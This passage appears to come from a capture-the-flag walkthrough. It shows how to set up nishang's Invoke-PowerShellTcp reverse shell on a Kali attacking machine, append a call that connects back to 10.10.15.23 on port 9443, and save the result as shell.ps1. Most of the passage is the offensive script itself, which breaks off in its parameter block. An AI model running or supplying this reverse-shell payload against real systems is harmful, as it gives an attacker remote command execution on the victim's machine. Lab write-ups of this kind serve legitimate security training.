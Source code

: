 ```powershell
$s.Send($length)
$s.Send($command)
```

Now we need to prepare the nishang Invoke-PowerShellTcp in our kali attacking machine. If we have a look at it we will see that it contains the function definition, but we also need to call it so by the end of our nishang Invoke-PowerShellTcp we will add the  line:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.23 -Port 9443
```

And we will save it as shell.ps1.  This is the final shell.ps1:

```bash
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

```